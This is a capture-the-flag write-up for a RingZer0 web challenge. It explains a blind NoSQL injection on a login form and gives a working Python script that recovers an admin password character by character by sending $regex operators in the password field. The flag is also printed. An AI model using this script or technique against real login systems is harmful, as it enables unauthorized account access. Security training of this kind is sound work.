

# I forgot my password

## Challenge Details 

- **CTF:** RingZer0
- **Category:** Exotic Data Storage
- **Points:** 3

## Provided Materials

- Login Form

## Solution

The solution will be based on [DON'T login as admin](https://github.com/bu19akov/CTF-Challenge-Solutions/blob/main/RingZer0_CTF/exotic_data_storage/DON'T%20login%20as%20admin%20(2p)/solution.md) challenge, so I recommend to read it first.

Now back to our current challenge, the web page looks exactly the same as in `DON'T login as admin`, so we can try the `$ne` operator again:


Hm, [NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection) again, but the `$ne` operator don't work. Let's see, what else we can do:


`$regex` looks promising, let's try it *(We will try to use admin as username as the challenge name is `I forgot my password` and probably it is based on `DON'T login as admin` chalenge)* :

 
 
 
 
 As we can see, there are two types of responses: `Welcome. Keep looking, the flag is not here.` message or nothing. That means, that if the character is presented in password, we will get the messsage as response, so let's automate our job with python to find the password *(`regex` tutorial [here](https://medium.com/factory-mind/regex-tutorial-a-simple-cheatsheet-by-examples-649dc1c3f285))*:
 
```python
import requests
import string

# Base URL and endpoint
url = 'http://challenges.ringzer0ctf.com:10309'

# Initialize possible characters
chars = string.ascii_lowercase + string.ascii_uppercase + string.digits + '-'
found = ''  # Keep track of found characters

while True:
    for char in chars:

        # Formulate regex
        regex = f'^{found}{char}' # ^ character is used to mark start of the string
        payload = {
            'username': 'admin',
            'password[$regex]': regex
        }

        # Send POST request
        response = requests.post(url, data=payload)

        # Check if the response contains the success message
        if "<h1>Welcome. Keep looking, the flag is not here.</h1>" in response.text:
            found += char
            print(f"Current match: {found}")
            break
    else:
        # Exit loop if no character matches
        print(f"Final password: {found}")
        break
```


## Final Flag

`FLAG-fa37ff8c565fb91f056d29eebf40e137`

*Created by [bu19akov](https://github.com/bu19akov)*